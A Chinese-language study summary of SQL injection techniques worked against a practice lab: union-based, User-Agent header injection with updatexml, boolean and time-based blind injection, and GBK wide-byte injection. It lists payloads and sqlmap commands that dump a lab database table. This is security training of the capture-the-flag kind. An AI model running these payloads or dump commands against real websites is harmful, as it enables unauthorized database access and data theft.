 ### SQL注入总结

#### 报错注入

- 第一步, 检查注入点
- 第二步, group by 查看前端回显字段数量
- 第三步, `union select 1,2,3,4` 根据前端显示判定回显字段
- 第二步, 注意闭合
- 注入代码:
    - `union select version(),database()`
    - `union select group_concat(table_name) from information_schema.tables where table_schema=database()`
    - `union select group_concat(column_name) from information_schema.columns where table_name='table_name'`
- 根据列名查询数据, 注意limit


#### Header注入

- 第一步, 爆破出密码
- 第二步, `User-Agent`修改为`1' and updatexml(1,concat(0x7e,(select database())),1),'2') -- q`, 查看报错信息
- 第三步, 查表名
`User-Agent`修改为`1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),'2') -- q`
- 第四步, 查列名`User-Agent`修改为`1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='head_error' and table_name='flag_head' limit 0,1)),1),'2') -- q`
- 第五步, 查字段内容
`User-Agent`修改为`1' and updatexml(1,concat(0x7e,(select flag_h1 from flag_head limit 0,1)),1),'2') -- q`

**注入点除了`User-Agent`,还有`Referer`,`HTTP_X_FORWARDED_FOR`**

> updatexml()  
这个函数有三个传参  
update是更新的意思 xml是一种文档的类型  
updatexml(目标xml内容，xml文档路径，更新的内容)  
updatexml(1,concat(0x7e(select database())0x7e),1)  
以上这条语句的意思为  
更新xml文档（需要更新的文档,concat(0x是16进制7e转换后是~（子查询爆库名），更新后的内容）  
之前我们讲了数据库路径出现符号是会爆错的的0x7e这个经过16进制转换后变成~
以上语句实际上是更新xml文档，但我们在xml路径中写了子查询它，我们输入了特殊符号，数据库路径出现特殊符号是会爆错的，但是报错的时候它就已经执行了那个子查询的代码了  
updatexml()这个函数一般是配合and或者是or使用的，他和联合查询不同，不需要在意什么字段数  


#### 布尔盲注

- 第一步, 判断传入参数类型,参数添加`and 1=1`页面无变化,参数添加`and 1=2`, 页面有变化，说明可以判断sql语句被执行，且传入参数为数字。存在SQL注入
- 第二步, 现在构造一个语句猜测数据库名长度,`and length(database())>10`, 前端显示正常, 这样一直猜测到数据库名字长度
- 第三步, 现在构造一个语句猜测数据库名第一个字母的ascii码是否大于100,`and ascii(substr(database(),1,1))>100`,就这样尝试到`and ascii(substr(database(),1,1))=107`, 得到第一个字符的ascii码是107
- 使用bp爆破模块猜解数据库名
- 使用sqlmap得到表名`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-10/index.php?id=1 -p id -threads 50 -D kanwolongxia --tables`
- 使用sqlmap得到字段名`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-10/index.php?id=1 -p id -threads 50 -D kanwolongxia -T loflag --columns`
- 使用sqlmap得到记录`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-10/index.php?id=1 -p id --threads 50 -D kanwolongxia -T loflag -C flaglo --dump`

> 盲注总结:
1.盲注是在没有回显，关闭错误页面，采用的一种测试方法，有点费时间  
2.sqlmap 在参数错误的时候有时候不会提示。。。有时候指定参数都跑不出来, 需要提高等级  
3.不同的数据库可以使用的空耗时间的函数也不尽相同  


#### 时间盲注
- 第一步,通过sleep函数确定存在时间盲注`" and sleep(4) -- qww`
- 第二步,依次确定数据库名字`http://inject2.lab.aqlab.cn:81/Pass-13/index.php?id=1" and if(substr(database(),1,1)="k",sleep(3),1) -- qww`
- 第三步,sqlmap跑出数据库名`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-13/index.php?id=1 --batch --flush-session --current-db --level=3 --risk=3`
- 第四步,sqlmap跑出表名`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-13/index.php?id=1 --batch --level=3 --risk=3 -D kanwolongxia --tables`
- 第五步,sqlmap脱库`python sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-13/index.php?id=1 --batch --level=3 --risk=3 -D kanwolongxia -T loflag -C flaglo --dump`

> 相关函数
length() => 返回(字符串)长度的数值  
substr([],[A],[B]) => 返回[]值中，[A]开始[B]位后的字符值  
ascii() => 通过数值返回(此处内容)的阿斯克码  
sleep()  
if(expr1.expr2,expr3) =>判断语句，第一个正确执行2，错误执行3  


#### 宽字节注入

*注意到单引号前加了反斜杠，使我们不能闭合字符串。所以在URL中不能出现单引号。其他和普通的GET注入一样*
- 第一步, 判断闭合字符  
只要出现单引号，前面就会加上反斜杠，有反斜杠就无法实现注入。现在考虑怎么把它加的反斜杠吃掉。反斜杠和前面的一个字符组成一个整体就不会去转义单引号了。这个整体就是宽字节。
对于中文这样的字符集，一个字符是用多个字节表示的。比如GBK编码用两个字节表示，UTF-8用3个字节表示。如果输入一个字节与反斜杠组成GBK的某一个汉字，反斜杠就不转义了。输入的字节必须大于127，否则就会被当成ASCII了。所以输入个0xdd试一下，通常编辑器下是输不了大于127的字节的，正好GET要进行URL编码，只要输入编码后的%dd就行了。所以我选择的闭合字符是%dd’
- 第二步,判断是否存在注入,按显错注入的步骤，输入`%dd' and 1=1 — q, %dd' and 1=2 — q`结果不一样，存在注入
- 第三步,查出字段`%dd' order by 2 — q`
- 第四步,寻找输出点`%dd’ union select 1,2,3 — q`


>一、原理  
magic_quotes_gpc（魔术引号开关）  
magic_quotes_gpc函数在php中的作用是判断解析用户提交的数据，如包括有：post、get、cookie过来的数据增加转义字符“\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符引起的污染而出现致命的错误。  
单引号（’）、双引号（”）、反斜线（\）与 NULL（NULL 字符）等字符都会被加上反斜线  
GBK全称《汉字内码扩展规范》,gbk是一种多字符编码。他使用了双字节编码方案，因为双字节编码所以gbk编码汉字，占用2个字节。一个utf-8编码的汉字，占用3个字节。




封神台SQL注入-HEADER注入
https://www.freesion.com/article/79131245351/

封神台SQL注入-盲注
https://www.pianshen.com/article/12321993968/

封神台SQL注入-延时注入
https://www.pianshen.com/article/49251993962/

封神台SQL注入-宽字节注入
https://www.pianshen.com/article/47421993964/
